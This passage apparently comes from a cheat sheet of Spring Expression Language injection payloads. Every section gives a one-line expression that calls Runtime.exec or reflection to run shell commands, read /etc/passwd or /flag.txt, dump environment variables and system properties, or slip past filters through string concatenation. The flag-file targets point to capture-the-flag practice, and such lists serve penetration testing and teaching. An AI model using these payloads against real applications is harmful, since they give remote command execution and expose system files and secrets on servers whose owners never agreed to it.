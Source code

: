 ### Class Loading and Reflection

```
${T(java.lang.Runtime).getRuntime().exec('id')}
${T(java.lang.Runtime).getRuntime().exec('cat /flag.txt')}
```

### Using String Concatenation (for filter bypass)

```
${T(String).valueOf(T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd'))}
```

### Reading Files

```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('cat /flag.txt').getInputStream())}
```

### Environment Information

```
${T(java.lang.System).getenv()}
${T(java.lang.System).getProperties()}
```

### Using ClassLoader

```
${T(java.lang.Class).forName('java.lang.Runtime').getRuntime().exec('cat /flag.txt')}
```

### Object Instantiation

```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('cat /flag.txt').getInputStream()).next()}
```

## Advanced Payloads

### Process Output Capture

```
${T(org.springframework.util.StreamUtils).copyToString(T(java.lang.Runtime).getRuntime().exec('cat /flag.txt').getInputStream(), T(java.nio.charset.StandardCharsets).UTF_8)}
```

### Using Java Reflection

```
${#rt = T(java.lang.Runtime).getRuntime(),#rt.exec('cat /flag.txt')}
```
